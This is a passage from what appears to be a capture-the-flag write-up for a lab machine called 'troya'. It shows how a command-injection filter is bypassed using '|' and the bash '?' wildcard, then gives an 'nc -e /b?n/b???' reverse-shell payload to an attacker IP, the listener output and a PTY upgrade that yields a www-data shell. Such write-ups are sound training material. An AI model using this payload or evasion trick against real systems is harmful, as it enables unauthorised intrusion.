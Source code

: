 ## Shell as www-data

We can see that from the output of burpsuite intruder, the non-valid characters are :
**Non Valid characters : ",%,\,',*,i,a,s,h,;,<,>,^,`,{,},~,\,\,#,=,&** 

Commonly, the special characters for to escape the input to execute OS command injection is:
```
&
;
Newline (0x0a or \n)
&&
|
||
 `
```
This means we can only use `|` in this scenario to escape the input for the command injection to work.

Additioanlly, to overcome another constraint of letters not being able to use we can use bash question mark `?` Wildcard.
**Take note `?` cannot be use for commands!

For example

```bash
┌──(root💀kali)-[/opt/hackmyv/troya]
└─# ls
a.txt bb.txt ccc.txt d e f xx.txt

┌──(root💀kali)-[/opt/hackmyv/troya] 
└─# ls ??.txt
bb.txt xx.txt

┌──(root💀kali)-[/opt/hackmyv/troya] 
└─# ls ?
d e f
```
To execute a reverse shell on the website our command will be
`127.0.0.1 || nc -e /b?n/b??? 192.168.56.3 1234`

On local attacking machine:
```bash
┌──(root💀kali)-[/opt/hackmyv/troya]
└─# nc -lvnp 1234                                       
listening on [any] 1234 ...
connect to [192.168.56.3] from (UNKNOWN) [192.168.56.33] 58220
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@troya:~/html$ whoami;id;hostname
whoami;id;hostname
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
troya
```
